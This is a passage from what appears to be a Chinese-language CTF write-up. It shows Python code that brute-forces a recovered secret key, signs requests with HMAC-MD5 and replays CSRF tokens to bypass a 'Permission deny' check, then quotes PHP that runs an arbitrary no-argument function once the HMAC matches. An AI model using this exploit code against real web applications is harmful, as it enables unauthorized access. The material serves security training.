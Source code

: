 	        secret_key += str_aaa[index]
	
	    return secret_key


然后就可以fuzz下每一位了，有可能减1，最终可以得到一个`PHPSESSION`和一个`secrect_key`，这样就可以进行下一步了。  


	def fuzz_secret_key(secret_key,url):
	    for r0  in range(2):
	        for r1 in range(2):
	            for r2 in range(2):
	                for r3 in range(2):
	                    for r4 in range(2):
	                        for r5 in range(2):
	
	                            new_secret_key = ""
	
	                            new_secret_key += str_aaa[(str_aaa.find(secret_key[0])-r0)%62]
	                            new_secret_key += str_aaa[(str_aaa.find(secret_key[1])-r1)%62]
	                            new_secret_key += str_aaa[(str_aaa.find(secret_key[2])-r2)%62]
	                            new_secret_key += str_aaa[(str_aaa.find(secret_key[3])-r3)%62]
	                            new_secret_key += str_aaa[(str_aaa.find(secret_key[4])-r4)%62]
	                            new_secret_key += str_aaa[(str_aaa.find(secret_key[5])-r5)%62]
	
	                            print new_secret_key
	                            csrf_token = get_csrf(r.get(url).text)
	
	                            key_md5 = hash_mac_md5("flag",new_secret_key)
	                            print key_md5
	                            post_data = {"act":"flag", "CSRF_TOKEN":csrf_token,"submit":"%E6%8F%90%E4%BA%A4", "key": key_md5}
	                            resppp = r.post(url,data = post_data)
	                            #print resppp.text
	                            #print r.cookies
	                            if  "Permission deny" not in resppp.text:
	                                print resppp.text
	                                print r.cookies
	                                print new_secret_key
	                                exit();     

这里用到了`hmac`加密，算法在python中同样实现为：  

	def hash_mac_md5(data, key):
	    #print key
	    digest_maker = hmac.new(key)
	    digest_maker.update(data)
	    return digest_maker.hexdigest()



## 0x01 json utf-8 编码绕过检测  


得到`secret_key`后，可以执行一个任意命令，但是必须是无参的：  

	if(hash_hmac('md5', $act, $_SESSION['SECRET_KEY']) === $key) {
        if(function_exists($act)) {
            $exec_res = $act();
            output($exec_res);
        } else {
            show_error_page("Function not found!!");
        }
    } else {
        show_error_page("Permission deny!!");
    }
